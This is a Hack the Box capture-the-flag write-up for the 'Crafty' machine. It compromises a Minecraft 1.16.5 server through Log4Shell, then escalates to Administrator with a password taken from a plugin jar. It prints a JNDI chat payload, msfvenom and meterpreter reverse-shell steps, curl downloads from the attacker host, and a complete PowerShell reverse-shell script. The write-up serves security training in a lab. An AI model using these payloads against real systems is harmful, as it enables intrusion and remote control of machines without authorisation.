# Hack the Box - Crafty

## Step 1 - Accessing the site
After spawning the machine, I tried visiting the site via browser. This resulted in `Server Not Found`:  


Adding the server's IP and domain name into `/etc/hosts` granted access to the site. The name of the box (crafty) relates to the game Minecraft, and this site is some kind of server hosting service.  


The site said "Join 1277 other players on play.crafty.htb". I added the subdomain to `/etc/hosts` and tried to access it via browser. This forwarded me back to `crafty.htb`.

I quickly checked if the site had set any cookies, but nothing was found:  


## Step 2 - Enumeration
I started by deploying `nmap` with:
```sh
$ nmap -sV -p- -T4 crafty.htb

Not shown: 65533 filtered ports
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.49 seconds
```

I performed a `UDP` scan with:
```sh
nmap -sU -T4 crafty.htb
```
which didn't provide any results.

Only two ports are open: 80 and 25565, which is used by Minecraft. Interesting, no ssh this time.

Next I deployed `ffuf` with:
```sh
$ ffuf -u crafty.htb/FUZZ -w wfuzz/general/megabeast.txt -e .php,.html,.js,.txt -fc 302
```
which did not yield any results.

I checked the used technologies using `wappalyzer` and found out that the server is a `Windows Server`.

With all this, I decided to explore the port `25565` further.

### Port 25565 (Minecraft)
I reviewd the nmap scan and it said `Protocol: 127`. The protocol tells which version of Minecraft is used, and protocol 127 indicates `Java Edition 15w37a`, which is `Minecraft Java Edition 1.9`.  
  
  
Unfortunately for me, this version wasn't vulnerable to the `log4j` exploit.

### main.js
Looking back at the source code of the site, I found a file called `main.js`:  
  

The interesting part was:
```javascript
// This is to fetch the player count
$(document).ready(() => {
    let ip = $(".sip").attr("data-ip");
    let port = $(".sip").attr("data-port");
    if (port == "" || port == null) port = "25565";
    if (ip == "" || ip == null) return console.error("Error fetching player count - is the IP set correctly in the HTML?");
    updatePlayercount(ip, port);
    // Updates every minute (not worth changing due to API cache)
    setInterval(() => {
        updatePlayercount(ip, port);
    }, 60000);
});

const updatePlayercount = (ip, port) => {
    $.get(`https://api.bybilly.uk/api/players/${ip}/${port}`, (result) => {
        if (result.hasOwnProperty('online')) {
            $(".sip").html(result.online);
        } else {
            $(".playercount").html("Server isn't online!");
        }
    });
};
```

Looking at the console, I saw the error message:  
  

However, this pointed to a real website which I did not want to probe.

### Downloading minecraft
Without further idea what to do, I decided recover my old Minecraft account and try to access the server through the Minecraft client.  
  

Adding the server worked, and it showed the version to be `1.16.5`, not `1.9`. Perhaps this was actually vulnerable to log4j?
  

Connecting to the server did not work and I had to downgrade my version to 1.16.5.  


I simply downloaded an older version from `Installations` tab on the Minecraft launcher:  
  

This time the server seemed to be up:  
  

And I connected successfully. Pretty cool!  



## Step 3 - Initial foothold
So this version was supposedly vulnerable to log4j (as found out earlier), and I remember reading in the news a few years ago not to play Minecraft Multiplayer, as it was vulnerable. After a quick online search I found a [PoC on GitHub](https://github.com/kai63001/minecraft-log4j-rce-poc) which contained the message that could be used to exploit the vulnerability.

In the Minecraft multiplayer session, I entered `${jndi:ldap://10.10.14.66:4455/a}` in the chat:  
  

And with my listener ready, I hit enter, which spawned a shell:  


However, none of the sent commands gave a response.

After more research, I found  [another PoC from GitHub](https://github.com/kozmer/log4j-shell-poc?source=post_page-----ddac7de10847--------------------------------).

It required a specific version of Java, which was extracted in the same location as the PoC:  


I checked what the PoC does (always a good idea) and it tried to spawn `/bin/bash`, but since I was targeting a Windows server (as discovered earlier), I changed it to `cmd.exe`  
 

With the modifications done, I started the PoC listener and my own `$ nc` listener, joined back to the Minecraft server and sent the command (`${jndi:ldap://10.10.14.66:1389/a}`):  


Succes!  


## Step 4 - User.txt
After gaining the shell, finding user.txt was simple as it was located in `c:\Users\svc_minecraft\Desktop`:  


## Step 5 - Root.txt
I started by checking the basics:  
```sh
> systeminfo
Host Name:                 CRAFTY
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA944
Original Install Date:     4/10/2020, 9:48:06 AM
System Boot Time:          3/23/2024, 7:51:20 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.21805430.B64.2305221826, 5/22/2023
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,856 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 2,576 MB
Virtual Memory: In Use:    2,223 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\CRAFTY
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.39.54
                                 [02]: fe80::570:b755:e1b2:777c
                                 [03]: dead:beef::33f6:d6fc:9020:f226
                                 [04]: dead:beef::1fd
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
```sh
>net users
net users

User accounts for \\CRAFTY

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
jacob                    svc_minecraft            WDAGUtilityAccount       
The command completed successfully.
```

I decided to run winPEAS on the machine:  
```sh
# Local machine
$ cd [<Path to winPEAS.bat>]
$ python3 -m http.server 5555
# Target machine
c:\Users\svc_minecraft> curl -O http://10.10.14.66:5555/winPEAS.bat
c:\Users\svc_minecraft> winPEAS.bat
```

Unfortunately winPEAS hung forever and I couldn't get information out of it.

### Enumerating jar file
I found a jar file `playercounter-1.0-SNAPSHOT.jar` in the `\plugins` folder. I've done a few HTB machines where jar files contained interesting information, so I wanted to downloaded this jar file to my local machine for closer inspection. Not sure how to do this on a Windows machine, I remembered `meterpreter` offered a handy `download` command to download files from remote machine to local machine.

To start a meterpreter session, I created a revershe shell executable with `msfvenom`:
```sh
# Local machine
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=5566 -f exe -o shell.exe  # Note, shell.exe would be easily identified if I was a malicious user
```

Next I moved the executable to the target machine:
```sh
$ python3 -m http.server 5555
# Target machine
C:\Users\svc_minecraft\Desktop> curl -O http://10.10.14.66:5555/shell.exe
```

Then I spawned a `metasploit` session via `$ msfconsole` and configured the Windows meterpreter reverse tcp connection:
```sh
# Local machine
$ msfconsole
msf6> use multi/handler
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set lhost tun0
msf6> set lport 5566
msf6> run
```

Then to connect to the metasploit shell:
```sh
# Target machine
C:\Users\svc_minecraft\Desktop> shell.exe
```
With meterpreter session open, I went back to the plugins folder and downloaded the jar file:
```sh
meterpreter > download playercounter-1.0-SNAPSHOT.jar
```

I unpacked the jar file with:
```sh
# Local machine
$ jar xf playercounter-1.0-SNAPSHOT.jar # Extracted htb/playercounter/Playercounter.class
```

And viewed the contents of the .class file with:
```sh
$ javap -c Playercounter.class
```

The file contained a string which seemed like a password (11: ldc // String s67...): 
```sh
  public void onEnable();
    Code:
       0: aconst_null
       1: astore_1
       2: new           #7                  // class net/kronos/rkon/core/Rcon
       5: dup
       6: ldc           #9                  // String 127.0.0.1
       8: sipush        27015
      11: ldc           #11                 // String s67[REDACTED]
      13: invokevirtual #13                 // Method java/lang/String.getBytes:()[B
      16: invokespecial #19                 // Method net/kronos/rkon/core/Rcon."<init>":(Ljava/lang/String;I[B)V

```

### Root access
With a password (presumably), I figured I could try use to gain access to the user "Administrator". Since Windows doesn't have `$ su` equivalent, I searched for other ways to change user. I found out a [PoC on GitHub](https://gist.github.com/int0x33/eb358632a13bcd1e017a14c0fb00a52b) on how to start processes as defined user:
```sh
# Local machine
$ nc -nvlp 4444

# Target machine
> Powershell # To spawn a powershell instance
> $securePassword = ConvertTo-SecureString "s67..." -AsPlainText -Force  
> $credential = New-Object System.Management.Automation.PSCredential "Administrator", $securePassword  
> Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","10.10.14.66","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
```

Unfortunately the machine did not have `nc.exe` available so I had to figure out something else. After a while, I realized I could try to create my own powershell script and use curl to download it on the target machine. I got the following script from revshells.com:
```powershell
$LHOST = "10.10.14.66"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```
which I saved into a file, and moved it to the target machine:  
```sh
# Local machine
$ python3 -m http.server 7788
# Target machine
> cd C:\users\svc_minecraft\Desktop
> cmd # Back to cmd, curl doesn't work in powershell
> curl -O http://10.10.14.66:7788/shell.ps1
> Powershell # Back to powershell
> Start-Process powershell.exe -Credential $credential -ArgumentList ("-file shell.ps1")
```
That successfully granted me a root shell:  


With that, it was simple to find the root.txt:  



  